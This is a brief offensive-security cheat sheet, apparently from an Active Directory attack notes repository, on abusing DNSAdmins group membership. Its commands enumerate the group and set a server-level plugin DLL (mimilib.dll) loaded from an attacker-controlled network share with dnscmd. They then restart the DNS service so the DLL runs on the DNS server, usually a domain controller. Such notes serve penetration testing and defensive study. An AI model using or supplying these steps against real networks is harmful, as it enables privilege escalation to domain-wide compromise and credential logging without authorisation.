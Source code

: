 # DNS Admins

**Enumerate member of the DNS admin group**

```
Get-NetGRoupMember “DNSAdmins”
```

**From the privilege of DNS Admins group member, configure DDL using dnscmd.exe (needs RSAT DNS)**

Share the directory the ddl is in for everyone so its accessible. logs all DNS queries on C:\Windows\System32\kiwidns.log

```
Dnscmd <dns server> /config /serverlevelplugindll \\<ip>\dll\mimilib.dll
```

**Restart DNS**

```
Sc \\<dns server> stop dns
Sc \\<dns server> start dns
```
